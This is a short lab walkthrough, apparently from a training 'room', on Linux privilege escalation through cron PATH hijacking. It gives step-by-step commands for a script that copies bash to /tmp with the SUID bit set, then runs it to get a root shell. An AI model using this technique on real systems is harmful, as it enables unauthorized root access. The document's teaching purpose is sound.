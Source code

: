 # crontab

1. View the contents of the system-wide crontab:

		cat /etc/crontab

2. Note that the *PATH variable starts with* `/home/user` which is our user's home directory.

3. Create a file called overwrite.sh in your home directory with the following contents:

		#!/bin/bash

		cp /bin/bash /tmp/rootbash
		chmod +xs /tmp/rootbash

4. Make sure that the file is executable:

		chmod +x /home/user/overwrite.sh

5. Wait for the cron job to run (should not take longer than a minute). 
6. Run the `/tmp/rootbash` command with `-p` to *gain a shell running with root privileges:*

		/tmp/rootbash -p

**Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!**

	rm /tmp/rootbash
	exit
